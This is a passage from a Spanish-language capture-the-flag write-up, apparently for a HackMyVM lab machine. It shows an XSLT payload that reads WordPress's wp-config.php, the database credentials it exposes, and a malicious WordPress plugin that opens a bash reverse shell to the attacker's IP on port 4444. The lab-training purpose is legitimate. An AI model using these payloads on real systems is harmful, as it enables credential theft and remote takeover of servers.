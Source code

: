 Es una página de **WordPress** sin nada en particular, no tenemos ningún nombre de usuario y menos contraseña, aunque tardaremos muy poco.

Para ello tendremos que volver a editar el fichero **XLS** que previamente habíamos copiado y cambiar la ruta hacia un fichero algo especial, la configuración de **WordPress**.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/var/www/wordpress/wp-config.php', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```

Una vez hayamos cambiado el fichero tendremos que volverlo a subir junto al **XML** para poder ver el contenido de este:

```php
<?php
[...]
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpressdb' );

/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'dw42k25MiXT' );
[...]
```

Tras todo el código en **PHP** que nos ha soltado veremos esas tres líneas que definen el nombre de la base de datos, el usuario y la contraseña respectivamente.

¡Estupendo! Ya tenemos la contraseña del usuario **Admin**. Para iniciar sesión debemos irnos a: `http://wordpress.omura.hmv/wp-admin.php`.

# Movimiento Lateral
### Shell
Una vez dentro como **Admin** tenemos que tratar de ganar una `Reverse Shell`, para ello lo que se me ocurrió es crear un `plugin` con código malicioso y subirlo a **WordPress**. Vamos a ver cómo lo hice:

Primero me dirigí a [SevenLayers](https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell), copié el código que proporcionaban y cambié la `IP` y el puerto para que apuntaran a mi equipo. En mi caso puse el puerto `4444`:

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.105/4444 0>&1'");
?>
```
